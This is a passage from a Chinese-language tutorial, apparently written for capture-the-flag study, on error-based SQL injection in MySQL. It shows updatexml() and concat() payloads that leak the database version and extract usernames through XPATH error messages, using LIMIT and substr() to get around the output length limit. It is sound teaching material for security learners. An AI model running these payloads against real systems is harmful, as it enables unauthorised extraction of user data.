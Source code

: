 ### 报错注入

顾名思义，通过报错信息获取数据的方法。

- `updatexml() ` 

  这里我们先讲 `updatexml() ` 报错注入。
  
  `updatexml()` 是MySQL中的一种XML处理函数，它用于更新XML格式的数 据，其标准的用法如下：
  
  ```sql
  UPDATEXML(xml_target, xpath_expr, new_value)
  ```
  
  其中，`xml_target`是要更新的XML数据，`xpath_expr`是要更新的节点路 径，`new_value`是新的节点值。
  
  但是这个函数有一个缺陷，如果二个参数包含特殊符号时会报错，并且会第二  个参数的内容显示在报错信息中
  
  ```
  mysql> SELECT username, password FROM users WHERE id = 1 and    updatexml(1, 0x7e, 3);
  1105 - XPATH syntax error: '~'
  ```
  
  那么通过这个特性，我们用 `concat()` 函数 将查询语句和特殊符号拼接 在一起，就可以将查询结果显示在报错信息中
  
  ```sql
  SELECT username, password FROM users WHERE id = 1 and updatexml(1, concat(0x7e,version()), 3) 
  ```
  
  输出:
  
  ```sql
  mysql> SELECT username, password FROM users WHERE id = 1 and  updatexml(1, concat(0x7e,version()), 3);
  1105 - XPATH syntax error: '~8.0.12'
  ```
  
  不过要注意的是 `updatexml() ` 的报错长度存在字符长度限制，目前有两  种方法来解决这个问题：
  
  - `LIMIT()` 
  
  ```sql
  SELECT username, password FROM users WHERE id = 1 and   updatexml(1,concat(0x7e,
  (select username from users 
  limit 1,1)),
  3);
  # 不断改变limit NUM,1 的值逐行获取
  ```
  
  ![image-20230505011056626](https://nssctf.wdf.ink//img/WDTJ/202305050110708.png)
  
  - `substr()`
  ```sql
  SELECT username, password FROM users WHERE id = 1 and updatexml(1,concat(0x7e,
  substr(
  (select group_concat(username) from users),
  1,31)
  ),3);
  ```
  